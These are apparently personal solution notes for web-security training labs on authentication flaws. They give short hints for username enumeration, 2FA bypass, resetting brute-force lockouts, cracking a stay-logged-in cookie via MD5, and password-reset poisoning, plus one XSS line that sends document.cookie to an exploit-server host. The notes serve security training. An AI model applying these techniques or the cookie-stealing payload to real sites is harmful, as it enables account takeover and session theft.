










____

# Username enumeration via different responses



# 2FA simple bypass

```
Just try to access the next endpoint directly 

/my-account?id=carlos
```

# Password reset broken logic

```
Change username in POST request after password-reset link
```



# Username enumeration via subtly different responses

Grep extract



# Username enumeration via response timing





# Broken brute-force protection, IP block

You can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached. For example create a combined list with your valid credentials and with victim's creds

```
wiener - peter
carlos - kek
carlos - kek2
wiener - peter
carlos - kek3 etc...
```



# Username enumeration via account lock

It blocks only existing accounts, so try to brute the same list of passwords until one of accounts from the list is not blocked.
To brute password use grep with errors to find a request without error





# 2FA broken logic

```
Observe there is verify=wiener in cookie while sending 2FA code
Change it to our victim's nickname and simply brute 2FA code
```


# Brute-forcing a stay-logged-in cookie

Decoded Stay logged in from base64

wiener:51dc30ddc473d43a6011e9ebba6ca770

51dc30ddc473d43a6011e9ebba6ca770 --> md5 --> peter



# Offline password cracking

XSS
```html
<script>document.location='//exploit-0ae1001a041d54ab8236324601b70073/'+document.cookie</script>
```

/secret=T88cI38wn5zNcV3RIgyxp6qZayCMm1FG;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

# Password reset poisoning via middleware

```
While processing forgot password set new header:
X-Forwarded-Host: exploit-server 
It will process Host Header Injection
```

/forgot-password?temp-forgot-password-token=qsh1gvoveepzfygxccgv5rzdelnn4tl2

# Password brute-force via password change


